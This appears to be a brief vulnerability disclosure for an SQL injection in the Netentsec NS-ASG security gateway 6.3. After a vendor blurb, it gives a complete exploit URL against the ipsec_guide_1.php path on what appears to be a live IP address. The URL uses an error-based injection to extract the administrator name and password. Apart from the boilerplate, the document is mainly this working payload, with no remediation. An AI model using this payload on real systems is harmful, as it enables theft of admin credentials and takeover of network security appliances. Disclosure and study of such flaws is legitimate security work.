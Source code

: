 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ：/admin/configguide/ipsec_guide_1.php


https://1.85.53.53/admin/configguide/ipsec_guide_1.php?TunnelId=1%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20passwd)%20from%20Admin%20limit%201)))%20%23

<img width="716" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/ef5d2bd9-a832-4d27-86ed-2a1ad927c018">

